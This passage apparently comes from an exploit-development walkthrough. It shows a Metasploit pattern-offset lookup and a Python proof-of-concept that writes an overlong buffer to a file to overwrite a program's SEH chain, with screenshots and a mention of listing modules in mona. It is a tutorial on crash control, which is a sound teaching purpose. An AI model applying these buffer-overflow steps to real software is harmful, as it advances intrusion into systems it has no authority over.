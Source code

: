 The offset for the next SEH is found:

```terminal_session
root@kali:~# msf-pattern_offset -q 31724130 
[*] Exact match at offset 512
root@kali:~# 
```

The Proof-of-Concept is updated:

```terminal_session
import struct

buffer = "A" * 512 + "BBBB" + "CCCC" + "\xff" * 200
f = open ("poc.txt", "w")
f.write(buffer)
f.close()
```

Once this PoC is sent, the SEH Chain is successfully overwritten:

![](/assets/img/Findings0/6.png)

With mona, different modules are listed:

![](/assets/img/Findings0/7.png)
